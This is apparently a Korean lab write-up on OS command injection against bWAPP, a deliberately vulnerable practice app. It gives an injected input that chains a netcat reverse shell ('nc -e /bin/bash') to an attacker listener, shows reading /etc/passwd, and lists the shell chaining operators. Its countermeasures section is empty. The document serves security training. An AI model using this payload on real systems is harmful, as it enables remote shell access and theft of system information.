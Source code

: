 ```yaml
---
title: "[bWAPP] 1. Injection - OS Command Injection"
---
```


<br>

## Injection

공격자가 신뢰할 수 없는 입력을 프로그램에 주입하도록 하는 공격.

<br>

<br>

## Command Injection

OS명령어를 입력하여 내부정보 유출 및 악의적인 행위를 수행

포트를 열고 포트서버에 연결하여 원격조정을 해보자

<br>

### 리눅스

![image-20220316020337128](image-20220316020337128.png)

- 포트 열고

<br>

### Bbox

![image-20220316020449205](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316020449205.png)

`www.nsa.gov && nc -vn 172.30.1.31 8888 -e /bin/bash`

- 다음과 같이 입력
- -e /bin/bash 옵션은 shell을 이용해 상호작용하기 위함
- -e 는 exec의 약자로 뒤에 넣은 것 실행

<br>

### 리눅스

![image-20220316020541411](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316020541411.png)

- 연결 확인

### 결과

![image-20220316020639739](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316020639739.png)

- whoami, hostname, id 를 통해 서버에서 개인정보 확인 가능

![image-20220316020721761](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316020721761.png)

- 또한, Bbox에서도 command 명령어와 cat 명령어 통해 /etc/passwd 디렉토리 정보 확인 가능

![image-20220316020903254](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316020903254.png)

<br>

### Command 명령어

; 앞 명령어 실패와 상관없이 다음 명령어 실행

|| 앞 명령어 실패시 다음 명령어 실행(디렉토리 이동 시 사용)

| 앞 명령의 결과를 뒤 명령어에게 넘겨줌(more, awk, grep와 같이 사용)

&& 앞 명령어가 성공 시 다음 명령어 실행

& 앞 명령어를 백그라운드로 실행하고 다음 명령어 실행

<br>

<br>

## 대응방안



<br>